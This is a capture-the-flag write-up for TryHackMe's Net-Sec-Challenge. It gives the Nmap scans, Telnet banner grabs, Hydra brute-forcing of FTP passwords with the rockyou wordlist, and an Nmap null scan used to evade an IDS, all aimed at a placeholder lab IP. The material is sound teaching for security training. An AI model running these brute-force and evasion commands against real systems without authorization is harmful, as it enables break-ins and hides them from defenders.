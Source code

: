 # Net-Sec-Challenge Writeup

This is a formal writeup for the **Net-Sec-Challenge** room on TryHackMe rated as medium. The challenge tests the skills learned in the Network Security module, using tools like **Nmap**, **Telnet**, and **Hydra**. The following sections cover each question and how it was solved.

---

## Question 1

**What is the highest port number being open less than 10,000?**

Command used:

```bash
nmap -p1-10000 <TARGET_IP>
```

Result: The highest port open below 10,000 was **8080 (http-proxy)**.

---

## Question 2

**There is an open port outside the common 1000 ports; it is above 10,000. What is it?**

Command used:

```bash
nmap -p- <TARGET_IP>
```

Result: The open port above 10,000 was **10021**.

---

## Question 3

**How many TCP ports are open?**

Using the same full scan as above (`nmap -p-`), we counted a total of **6 open TCP ports**.

---

## Question 4

**What is the flag hidden in the HTTP server header?**

We connected to port 80 using Telnet:

```bash
telnet <TARGET_IP> 80
```

Then sent a basic HTTP request:

```http
GET / HTTP/1.1
Host: http
```

The server responded with headers that contained the flag.

*Note:* An alternative way would have been using Nmap with service detection:

```bash
nmap -sC -p80 <TARGET_IP>
```

---

## Question 5

**What is the flag hidden in the SSH server header?**

We connected to port 22 using Telnet:

```bash
telnet <TARGET_IP> 22
```

The SSH banner revealed the flag.

*Note:* Similar to Q4, this could also be obtained with:

```bash
nmap -sC -p22 <TARGET_IP>
```

---

## Question 6

**We have an FTP server listening on a nonstandard port. What is the version of the FTP server?**

We ran a service version scan:

```bash
nmap -p- -sV <TARGET_IP>
```

Result: The FTP server was identified as **vsftpd 3.0.5**.

---

## Question 7

**We learned two usernames using social engineering: `eddie` and `quinn`. What is the flag hidden in one of these two account files and accessible via FTP?**

To brute-force the FTP credentials, we used Hydra:

```bash
hydra -l eddie -P /usr/share/wordlists/rockyou.txt ftp://<TARGET_IP>:10021
hydra -l quinn -P /usr/share/wordlists/rockyou.txt ftp://<TARGET_IP>:10021
```

Once valid credentials were found, we logged in:

```bash
ftp <TARGET_IP> 10021
```

After authenticating, one of the accounts contained a file with the hidden flag.

---

## Question 8

**Browsing to http\://\<TARGET\_IP>:8080 displays a small challenge that will give you a flag once you solve it. What is the flag?**

Visiting the page led to a challenge about bypassing an IDS using Nmap. Techniques include decoys (`-D`) or null scans (`-sN`).

In this case, the following worked:

```bash
nmap -sN <TARGET_IP>
```

The scan completed successfully and the page revealed the final flag.

---

## Conclusion

This challenge reinforced fundamental skills in:

* Enumerating services with **Nmap**
* Extracting information from banners with **Telnet**
* Cracking credentials with **Hydra**
* Using FTP clients to retrieve sensitive files
* Understanding IDS evasion with Nmap scan types

The **Net-Sec-Challenge** demonstrates how simple tools can uncover sensitive information if services are misconfigured or use weak credentials.

## Disclaimer
> ⚠️ This writeup is for educational purposes only. Do not use these techniques outside of authorized environments.
---
